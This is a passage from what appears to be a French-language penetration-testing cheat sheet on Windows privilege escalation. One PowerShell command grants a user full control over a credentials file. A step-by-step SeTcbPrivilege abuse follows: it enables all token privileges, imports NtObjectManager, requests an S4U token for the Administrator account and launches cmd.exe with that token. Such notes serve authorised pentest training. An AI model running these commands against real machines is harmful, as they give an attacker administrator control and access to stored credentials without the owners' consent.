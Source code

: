 
### 5. S'octroyer le control total sur l'objet

```powershell
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant <user>:F
```


---
# SeTcbPrivilege

> [!TIP]
> Permet d'agir en tant que l'OS.
> Possibilité d'impersoner n'importe quel user en utilisant S4U logon.


### 1. Activer le Token dans un premier temp

https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1

```
.\EnableAllTokenPrivs.ps1
```

### 2. Importer le module NtObjectManager

https://www.powershellgallery.com/packages/NtObjectManager/2.0.1

Si pas de connexion internet sur la target, sauvegarder le module depuis la machine de l'attaquant et l'importer manuellement.

```
Save-Module -Name NtObjectManager -RequiredVersion 2.0.1 -Path C:/
```

import du module 

```
import-module .\NtObjectManager\2.0.1\NtObjectManager.psd1
```

### 3. Requête d'un token Administrator

Requête d'un token pour le compte Administrator

```
$token = Get-NtToken -S4U -User "Administrator"
```

Extraire le handle

```
$handle = $token.Handle
```

Lancer le process avec ProcessEx
https://github.com/jborean93/ProcessEx/tree/main

```
Start-ProcessWith cmd.exe -Token $handle
```
